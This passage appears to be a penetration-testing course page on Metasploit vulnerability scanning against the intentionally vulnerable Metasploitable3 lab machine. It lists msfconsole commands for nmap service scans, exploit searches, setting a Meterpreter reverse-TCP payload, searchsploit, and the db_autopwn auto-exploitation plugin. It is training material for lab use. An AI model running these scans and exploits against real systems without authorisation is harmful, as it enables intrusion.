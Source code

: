 # i - Vulnerability Scanning with MSF

### **Vulnerability Scanning**

* Vulnerability scanning & detection is the process of scanning a target for vulnerabilities and verifying whether they can be exploited.
* So far, we have been able to identify and exploit misconfigurations on target systems, however, in this section we will be exploring the process of utilizing auxiliary and exploit modules to scan and identify inherent vulnerabilities in services, operating systems and web applications.
* This information will come in handy during the exploitation phase of this course.
* We will also be exploring the process of utilizing third party vulnerability scanning tools like Nessus and how we can integrate Nessus functionality in to the MSF.

### **Lab Environment**

* For the purposes of demonstrating the vulnerability scanning process, we will be utilizing an intentionally vulnerable virtual machine called Metasploitable3 that is based on Windows Server 2008.
* Metasploitable3 was developed by Rapid7 to demonstrate how MSF can be used to perform exploitable of a Windows System.
* Instructions on how this VM can be setup can be found here: [https://bit.ly/3kASwns](https://bit.ly/3kASwns)



## **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
systemctl start postgresql && msfconsole
# db_status
setg RHOSTS $ip

# create a workspace.
# the key thing you need for vuln scanning is the service version.
db_nmap -sS -sV -O $ip  # nmap scan for the service versions.

# how to identify vuln with the service versions?
# method 1
search type:exploit name: Microsoft IIS # fetches all MS IIS exploits. Dead-end in this case. Because the listed exploits dosen't match the service version on the victim OS.
search GlassFish
use 0
# we need to check if this exploit will work on the victim exploited service.
info # we get info as to all the service versions the exploit works for and (v4.0) is available.
set payload windows/meterpreter/reverse_tcp # we set the payload to windows 32bit reverse meterpreter session.
options

# method 2
# we can use searchsploit to search for vulns/exploits
searchsploit "<search>" #Search for exploits (available in MSF and others.
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit" #Search for exploits only available in MSF.

# method 3
# an automated but deprecated vulnerability/exploit scanner.
https://github.com/hahwul/metasploit-autopwn
# metasploit plugin for easy exploit & vulnerability attack.
# But, the db_autopwn command is removed from official distribution.
# download and Move dB_autopwn.rb file into metasploit plugin directory.
cp db_autopwn.rb /opt/metasploit-framework/plugins
msf5 > load db_autopwn # load the module into metasploit.
msf5 > db_autopwn # to load the help menu.
# it works when you already working with workspaces, and the services are already available (db_nmap scan).
db_autopwn -p -t # enumerate lots of exploits for each of the open ports, which is'nt specific to the servce version.
# we can streamline this by being specific.
db_autopwn -p -t -PI 445 # targeting only SMB.

# method 4
# Analyze your MSF database and return what services are vulnerable to MSF exploits.
msf6 > analyze #
msf6 > vulns # displays the found vulnerabilities.
```
{% endcode %}







